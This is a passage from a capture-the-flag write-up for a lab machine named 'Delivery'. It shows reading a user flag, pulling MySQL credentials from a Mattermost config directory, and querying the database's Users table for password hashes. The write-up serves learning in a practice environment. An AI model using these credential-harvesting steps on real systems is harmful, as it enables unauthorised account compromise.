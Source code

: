I checked `user.txt` file →

```bash
maildeliverer@Delivery:~$ ls -al
total 32
drwxr-xr-x 3 maildeliverer maildeliverer 4096 Jul 22 06:29 .
drwxr-xr-x 3 root          root          4096 Dec 26  2020 ..
lrwxrwxrwx 1 root          root             9 Dec 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 maildeliverer maildeliverer  220 Dec 26  2020 .bash_logout
-rw-r--r-- 1 maildeliverer maildeliverer 3526 Dec 26  2020 .bashrc
drwx------ 3 maildeliverer maildeliverer 4096 Jul 21 11:25 .gnupg
-rw------- 1 maildeliverer maildeliverer  317 Jul 22 06:29 .mysql_history
-rw-r--r-- 1 maildeliverer maildeliverer  807 Dec 26  2020 .profile
-r-------- 1 maildeliverer maildeliverer   33 Jul 21 00:15 user.txt
maildeliverer@Delivery:~$ cat user.txt
86802dfee1c5dd0c21f39519ab8b69df
maildeliverer@Delivery:~$
```
{: .nolineno}

Now I got this data of mysql from `/opt/mattermost/config` →

![Untitled](/Vulnhub-Files/img/Delivery/Untitled%2012.png)

```bash
mmuser : Crack_The_MM_Admin_PW
```
{: .nolineno}

Now lets login into mysql →

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 613
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username , Password from Users;
```